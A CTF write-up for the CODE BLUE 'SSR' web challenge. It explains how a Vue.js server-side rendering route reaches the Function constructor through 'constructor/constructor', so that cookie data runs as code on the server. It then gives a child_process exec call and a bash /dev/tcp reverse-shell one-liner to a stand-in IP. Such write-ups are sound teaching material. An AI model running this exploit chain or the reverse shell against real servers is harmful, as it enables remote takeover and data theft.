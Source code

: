 ## SSR

This is a web challenge with Vue.js + Vue.js SSR. I found that SSR works with same JS code given to client after some requests to server.

The url is like below, and the user data is JSON-encoded to the cookie.

`http://ssr.tasks.ctf.codeblue.jp/idols/0/say1`

In js side(I don't have it now), the URL is routed like:

```
routes.add('/idols/:id/:action', handler)
...

var idols = {
	// predefined objects with id, action.
};
handler = (id, action) => {
	var actions = idols[id][action];
	var user = JSON.parse(cookie.user); // Let's assume that cookie has user=... value.
	var obj = actions(user.data);
	return obj();
}
```

If I give url `idols/constructor/constructor` to it, since in js idols.a == idols['a'], it loads {}.constructor.constructor == Object.constructor == Function, and user.data is controlled by user, too. Then,

```js
    var user = JSON.parse(cookie.user); // user = { ... user controlled data ... }
    var obj = actions(user.data) // == Function(... controlled data ...)
    return obj() // == function() { ... controlled data ... } ()
```

So it causes RCE in server via SSR. The JS context itself doesn't have `require` on global object, but process.mainModule has. We can use `process.mainModule.require("child_process").exec("command in sh")` to get reverse shell. Since it's sh, not bash, [this payload](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) works.

```
bash -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
```

I changed the server information. The server has flag.
